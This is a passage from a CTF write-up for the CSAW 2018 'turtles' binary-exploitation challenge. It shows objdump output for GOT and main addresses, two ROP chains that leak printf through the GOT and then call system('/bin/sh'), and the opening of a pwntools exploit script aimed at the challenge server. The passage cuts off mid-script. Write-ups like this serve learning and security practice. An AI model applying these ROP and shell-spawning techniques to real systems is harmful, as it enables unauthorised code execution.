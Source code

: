 get the got address of `printf`:
```
$	objdump -R turtles | grep printf
0000000000601290 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
```

get the address of `main (0x400b84)`:
```
$	objdump -D turtles | grep main
0000000000400a40 <__libc_start_main@plt>:
  400a84:	e8 b7 ff ff ff       	callq  400a40 <__libc_start_main@plt>
0000000000400b84 <main>:
```

with that, we can build our first ROP chain:
```
pop rdi, ret;
got printf address
plt printf address
main address
```

after that, we get our second ROP Chain, which just calls system using it's libc address. Also the string `/bin/sh` will be stored at `turtle+0x48` for this chunk:
```
pop rdi, ret;
turtle+0x48
libc system
```

## Exploit

Pulling it all together, we have the following exploit.

```
# This exploit is based off of: https://jkrshnmenon.wordpress.com/2018/09/17/csaw-ctf-quals-2018-turtles-writeup/

from pwn import *

# Establish the target
target = remote('pwn.chal.csaw.io', 9003)
#target = process('./turtles')
#gdb.attach(target, gdbscript='b *0x400c8a')

# Establish the binaries so we can get symbols
elf = ELF('./turtles')
libc = ELF('libc.so.6')

# Establish the needed ROP gadgets & addresses
popRegisters = p64(0x400d3a) # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
popRdi = p64(0x400d43) # pop rdi ; ret

pltPrintf = p64(elf.plt['printf'])
gotPrintf = p64(elf.got['printf'])
gotRead = p64(elf.got['read'])

main = p64(0x400b84)

# Scan in and parse out the address of the turtle object
def initalTurtle():
	print target.recvuntil('Here is a Turtle: ')
	leak = target.recvline()
	leak.replace('\x0a', '')
	leak = int(leak, 16)
	log.info('The leak is: ' + hex(leak))
	return leak
```